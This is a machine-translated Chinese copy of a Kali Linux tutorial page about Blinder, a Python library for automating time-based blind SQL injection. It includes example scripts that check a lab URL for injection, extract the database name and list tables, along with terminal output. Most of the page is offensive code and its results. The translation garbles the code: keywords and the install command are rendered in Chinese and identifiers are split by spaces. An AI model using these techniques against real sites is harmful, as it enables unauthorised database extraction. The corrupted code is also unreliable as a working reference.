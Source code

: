 # Blinder:自动化基于时间的盲目 SQL 注入的 Python 库

> 原文：<https://kalilinuxtutorials.com/blinder/>

[![Blinder : A Python Library To Automate Time-Based Blind SQL Injection](img/3465dde885162e288056a18dc648364d.png "Blinder : A Python Library To Automate Time-Based Blind SQL Injection")](https://1.bp.blogspot.com/-O3fwJacA_5I/Xjn-thhP_xI/AAAAAAAAEsQ/y5ELY-83xis44yT9UITzqMVfL4UMGmC1QCLcBGAsYHQ/s1600/Sql.png)

**Blinder** 是一个小的 python 库，通过使用预定义的查询作为自动化快速 PoC 开发的函数来自动化基于时间的盲 SQL 注入。

**安装**

您可以使用以下命令安装它:

**pip 安装遮挡板**

或者下载源代码并手动导入到您的项目中。

**用法**

要使用它，你需要导入`Blinder`模块，然后开始使用它的主要功能。

**也可以理解为-[应用程序检查器:一个源代码分析器，用于显示感兴趣的特性](https://kalilinuxtutorials.com/application-inspector/)**

您可以在“当前版本”中使用它来执行以下操作:

*   检查基于时间的注射。
*   获取数据库名称。
*   获取表名。

**您可以使用以下代码在 URL 中检查注入:**

**！/usr/bin/python**
**导入 Blinder
blind = Blinder . Blinder(
" http://sqli-lab/SQL _ injection/index . PHP？search=3 "，
sleep = 1
)
print blind . check _ injection()**

执行结果将是:

**root @ kali:~/Desktop # python check . py
True
root @ kali:~/Desktop #**

您可以使用以下代码获取数据库名称:

**！/usr/bin/python

导入 Blinder
blind = Blinder . Blinder(
" http://sqli-lab/SQL _ injection/index . PHP？search=3 "，
sleep=1
)

print "数据库名称为:%s " % blind.get_database()**

结果将会是:

**root @ kali:~/Desktop # python get-Database . py
数据库名称为:db1
root@kali:~/Desktop#**

要获取表名，可以使用以下代码:

**！/usr/bin/python**
**导入 Blinder
blind = Blinder . Blinder(
" http://sqli-lab/SQL _ injection/index . PHP？search=3 "，
sleep = 1
)

tables = blind . get _ tables()**

对于表中的表:

**打印表格**

结果将会是:

**root @ kali:~/Desktop # python get-tables . py
博客
笔记
root@kali:~/Desktop#**

[**Download**](https://github.com/mhaskar/Blinder)